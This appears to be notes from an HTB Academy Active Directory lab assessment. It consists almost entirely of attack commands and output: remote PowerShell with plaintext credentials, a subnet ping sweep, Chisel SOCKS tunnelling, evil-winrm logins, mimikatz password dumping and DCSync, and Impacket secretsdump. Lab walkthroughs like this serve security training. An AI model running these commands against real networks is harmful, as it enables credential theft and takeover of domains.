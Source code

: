 # Skills Assessment Part I
```
$password = ConvertTo-SecureString 'lucky7' -AsPlainText -Force ; $cred = new-object System.Management.Automation.PSCredential ('INLANEFREIGHT.LOCAL\svc_sql', $password ); $s= New-PSSession -ComputerName MS01 -Credential $cred; Invoke-Command -Session $s { type C:\PATH\TO\ADMIN\FLAG.txt}

PS> 1..254 | % {echo "172.16.6.$_"; ping -n 1 -w 100 172.16.6.$_} | Select-String ttl

```

Reply from 172.16.6.3: bytes=32 time<1ms TTL=128
Reply from 172.16.6.50: bytes=32 time<1ms TTL=128
Reply from 172.16.6.100: bytes=32 time<1ms TTL=128

Chisel from HTB academy - SOCKS5 Tunneling with Chisel
```
socks4        127.0.0.1 9050
OR
socks5 127.0.0.1 1080
```

```
C:\chisel.exe server -v -p 1234 --socks5

./chisel client -v 10.129.49.186:1234 socks

proxychains evil-winrm -i 172.16.6.50 -u svc_sql -p lucky7

.\mimikatz.exe SEKURLSA::LogonPasswords exit

```

        wdigest :
         * Username : tpetty
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : tpetty
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : Sup3rS3cur3D0m@inU2eR

`proxychains evil-winrm -i 172.16.6.50 -u tpetty -p Sup3rS3cur3D0m@inU2eR`

```

.\mimikatz.exe lsadump::dcsync /user:INLANEFREIGHT\tpetty exit
.\mimikatz.exe lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\tpetty exit
.\mimikatz.exe lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:tpetty exit
.\mimikatz.exe lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:Administrator exit

secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL	Impacket tool used to perform a DCSync attack and retrieve one or all of the NTLM password hashes from the target Windows domain. Performed from a Linux-based host.
```
